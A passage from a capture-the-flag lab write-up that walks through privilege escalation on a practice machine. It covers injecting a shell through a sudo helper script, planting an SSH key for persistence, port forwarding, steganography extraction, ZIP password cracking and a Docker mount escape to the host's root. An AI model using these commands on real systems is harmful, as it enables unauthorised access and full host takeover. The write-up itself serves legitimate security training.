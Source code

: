 ```bash
sudo -u apaar /home/apaar/.helpline.sh
```

It prompts you for a name; you can put anything for that. Then it prompts you for a message. That should be: `/bin/bash`

You will now have a prompt running as `apaar`. So, you can inject your `~/.ssh/id_rsa.pub` public key into `apaar`'s `authorized_keys` files so that you can SSH in as `apaar` without being prompted for an SSH password. So, while we are running as `apaar`, run something like:

```bash
echo "ssh-rsa AAAAB3Nza<--SNIP-->udTRuFA8= user@example.com" >> /home/apaar/.ssh/authorized_keys
```

Where those contents would be your own public key from `~/.ssh/id_rsa.pub` on your workstation. If that file does not exist, run `ssh-keygen` and take all of the defaults (and you shouldn't set a password, in this particular case).

Finally, you can now `ssh apaar@<machine-ip>` and you should not be prompted for a password. You now have a proper SSH prompt running as `apaar`.


## Privilege Escalation

This is a bit unrealistic and convoluted, but I suppose it is a good reinforcement of these skills that we learn! Here is the summary of the kill-chain to get privilege escalation:

1. Run `netstat -tupln` see we're hosting a site on `localhost:9001`
2. Use `ssh -L` port redirection to re-host that website locally on our workstation.
3. Use `apaar`'s database username and password to log in to this website.
4. Grab the hacker picture. Run: `steghide extract -sf ./hacker-with-laptop_23-2147985341.jpg` and it extracts a `backup.zip`
5. Run: `fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt ./backup.zip` to try to crack the ZIP password.
6. Run: `unzip ./backup.zip`, use the password you just found to reveal: `source_code.php`.
7. We see this references uses `anurodh` and a password that is base64-encoded.
8. Run: `echo "password" | base64 -d` to base64-decode the password to clear-text.
9. Now we can log in as this other user. We run: `su anurodh` and use the password from above.

Also see: [backup.zip](backup.zip), [hacker-with-laptop_23-2147985341.jpg](hacker-with-laptop_23-2147985341.jpg), and [source_code.php](source_code.php)

Let me stop and highlight this next part, because it's pretty interesting!

### Docker Filesystem Breakout / Escape

This user `anurodh` doesn't have any additional `sudo` privilege and `linpeas` didn't find much. However, `anurodh` does have privileges to use Docker. Docker containers run in a "namespace" within Linux. When a container is running as `root`, there are potential ways to jump over that namespace and into the host machine. If we run `docker images`, we can see that have an Alpine Linux image. This means we can try:

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
